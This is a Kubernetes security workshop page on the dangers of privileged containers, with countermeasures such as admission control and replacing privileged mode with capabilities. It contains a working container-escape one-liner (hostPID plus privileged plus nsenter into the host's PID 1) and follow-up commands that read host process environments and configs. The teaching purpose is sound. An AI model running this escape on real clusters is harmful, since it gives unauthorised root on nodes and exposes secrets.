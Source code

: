 +++
categories = []
date = "2020-02-22"
description = ""
slug = ""
tags = []
title = "Avoid privileged mode"
draft = false
toc = true
weight = 65
+++

### Introduction
In this exercise, we cover:

 - What `--privileged` mode does
 - The crazy things it allows
 - How you might be able to replace it

### Setup
We'll exec directly into a container in this example.

This example is based on Ian Coldwater and Duffie Cooley's example from [Black Hat USA 2019](https://github.com/mauilion/blackhat-2019).

As a preliminary step, we'll deploy nginx and then spy on it later.
_(Note: adjust the replica count to match the number of nodes in your cluster.)_

```
export NODE_COUNT="$(kubectl get nodes --no-headers | wc -l | tr -d)"
kubectl create deployment nginx --image=nginx:stable
kubectl scale deployment nginx --replicas $NODE_COUNT
kubectl get pods -w
```

To start, we'll use [Duffie Cooley's "one tweet to root"](https://twitter.com/mauilion/status/1129468485480751104)—it takes less than 280 characters!

{{< tweet 1129468485480751104 >}}
```
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}'
```

Here's that same spec, pretty-printed:
```json
{
  "spec": {
    "hostPID": true,
    "containers": [
      {
        "name": "1",
        "image": "alpine",
        "command": [
          "nsenter",
          "--mount=/proc/1/ns/mnt",
          "--",
          "/bin/bash"
        ],
        "stdin": true,
        "tty": true,
        "securityContext": {
          "privileged": true
        }
      }
    ]
  }
}
```

You'll notice:

 - `"hostPID": true` — The container is entering the host's process (PID) namespace
 - `"privileged": true` — The container is running in `--privileged` mode
 - `"stdin": true, "tty": true` — We'll attach a terminal to the running container when it starts
 - `"command"` — It's going to start out using `nsenter` to go into the **host**'s PID 1 (first process)

### "Attack"
Once we are in this shell, we can do some fun stuff to explore the host and learn about other processes and containers.

```
ls /proc/*/environ

pgrep -a nginx
(nsenter -n -t $(pgrep nginx | head -n1) ss -ln)
(nsenter -m -t $(pgrep nginx | head -n1) cat /etc/nginx/nginx.conf)

(nsenter -m -t 1 cat /etc/resolv.conf)
```

Can you think of anything else you'd want to do to the host while we're here?

Hit `Ctrl-D` to exit the pod when you're done.

### Countermeasure
Avoid `--privileged` mode and `hostPID` unless super necessary.

Consider applying admission control (using a dynamic admission controller or a `PodSecurityPolicy`) to block privileged containers by default.

### Attack effects after patching

Let's start just changing `hostPID: false`.

```
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{ "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}'
```

We can also try with `privileged: false`:
```
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true}]}}'
```

Note that both fail to start because either:
* we lack `/bin/bash` (a side-effect of staying in our Alpine container's `pid 1` instead of the host's), or
* we can't actually mount the process's mount (a side-effect of not being `--privileged`).

### How to use it yourself
Use the capabilities setting in the `securityContext` rather than privileged mode, if you can.
There are limited circumstances where you can and can't do this, which are hard to enumerate.

To know what caps you need, consider [`capable`](http://www.brendangregg.com/blog/2016-10-01/linux-bcc-security-capabilities.html) or a similar tool.

Remember that all of these changes should go through CI and testing, like any code change.
You need to be sure all of your important flows are exercised if you want to have confidence in this change.

### "Advertisement"
Watch Maya and Frenchie's BSidesSF talk about privileged containers:

{{< youtube 5VgSFRyI38w >}}

### Next up
We'll cover resource limits in the next exercise:

[**Set resource limits**](../80-limits)
